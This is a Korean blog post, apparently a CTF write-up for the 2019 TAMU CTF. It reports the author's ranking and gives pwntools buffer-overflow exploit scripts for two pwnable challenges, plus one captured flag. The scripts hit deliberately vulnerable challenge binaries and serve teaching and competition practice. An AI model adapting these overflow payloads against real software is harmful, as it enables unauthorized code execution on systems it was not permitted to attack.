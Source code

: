 ```yaml
---
layout: post
title: 2019 Tamu CTF Writeup
author: "Realsung"
comments: true
featured: true
sitemap :
  changefreq : 2019tamuctf
  priority : 1.0
---
```


2472팀중에 348등 5061 points로 끝냈고 22문제를 풀었다.

![](https://user-images.githubusercontent.com/32904385/53815727-84b32f00-3fa5-11e9-8e3a-743d37f589a9.png)

# Pwnable

포..넙

### Pwn1

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4321)
p = process('./pwn1')
e = ELF('./pwn1')
shell=0xDEA110C8
p.sendlineafter('What... is your name?','Sir Lancelot of Camelot')
p.sendlineafter('What... is your quest?','To seek the Holy Grail.')
p.recvuntil('What... is my secret?')
payload = ''
payload += 'A'*(0x3b-0x10)
payload += p32(shell)
p.sendline(payload)
p.interactive()
```

**FLAG : gigem{34sy_CC428ECD75A0D392}**

<br />

### Pwn2

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4322)
p = process('./pwn2')
e = ELF('./pwn2')
flag_fun=0x000006d8
p.recvuntil('Which function would you like to call?')
payload = 'A'*30
payload += p32(flag_fun)
p.sendline(payload)
p.interactive()
```
